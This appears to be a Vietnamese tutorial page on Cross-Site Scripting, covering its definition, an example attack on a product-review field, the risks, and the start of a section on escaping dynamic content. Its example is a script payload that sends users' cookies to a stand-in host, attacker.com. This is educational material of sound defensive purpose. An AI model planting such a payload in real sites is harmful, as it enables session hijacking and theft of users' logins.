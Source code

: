 # Cross-Site Scripting
## 1.Khái Niệm
**(XSS) Cross-Site Scripting**: Lỗ hổng XSS cho phép người dùng độc hại thực thi các đoạn JavaScript tùy ý khi người dùng khác truy cập trang web của bạn.
### Ví dụ:
*"Một trang web thương mại điện tử cho phép người dùng gửi nhận xét về các sản phẩm. Trang web này cho phép người dùng nhập một đánh giá và hiển thị nó trên trang sản phẩm tương ứng."*
#
Một kẻ tấn công muốn thực hiện một cuộc tấn công XSS để đánh cắp thông tin đăng nhập của người dùng khi họ truy cập vào trang sản phẩm.
Kẻ tấn công thêm một bình luận chứa mã JavaScript độc hại vào trường đánh giá.
```javascript
<script>
  // Gửi cookie của người dùng đến kẻ tấn công
  var img = new Image();
  img.src = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```
>Khi một người dùng khác truy cập vào trang sản phẩm và xem bình luận này, mã JavaScript độc hại sẽ được thực thi trên trình duyệt của họ. Điều này sẽ gửi cookie của người dùng đến máy chủ của kẻ tấn công, cho phép họ đánh cắp thông tin đăng nhập của người dùng.
## 2. Nguy Cơ
***Một cuộc tấn công XSS nghiêm túc có thể gây ra những hậu quả nào?***
1. Lây lan các loại mã độc trên các trang mạng xã hội phổ biến như Facebook, Twitter và YouTube.
2. Đánh cắp phiên đăng nhập (session hijacking): Mã JavaScript độc hại có thể gửi ID phiên đến một máy chủ từ xa dưới sự kiểm soát của hacker, cho phép hacker giả mạo người dùng bằng cách chiếm quyền điều khiển phiên đang hoạt động.
3. Đánh cắp danh tính: Thông qua việc người dùng nhập thông tin nhạy cảm như số thẻ tín dụng vào một trang web đã bị chiếm đoạt, các chi tiết này có thể bị đánh cắp bằng JavaScript độc hại.
4. Tấn công từ chối dịch vụ (DoS) và phá hoại trang web: Tấn công DoS để làm gián đoạn hoạt động và gây thiệt hại cho trang web.
5. Đánh cắp dữ liệu nhạy cảm như mật khẩu, đe dọa tài khoản người dùng và có thể dẫn đến các vụ vi phạm bảo mật khác.
6. Tiến hành gian lận tài chính trên các trang web ngân hàng bằng cách khai thác lỗ hổng XSS để thao túng các giao dịch hoặc trích xuất thông tin ngân hàng nhạy cảm.

## 3. Biện pháp bảo vệ
*"Để bảo vệ khỏi các cuộc tấn công XSS được lưu trữ, hãy đảm bảo mọi nội dung động đến từ kho lưu trữ dữ liệu đều không thể được sử dụng để chèn JavaScript vào một trang."*
***Đây là yêu cầu cốt lõi***
### Escape Dynamic Content

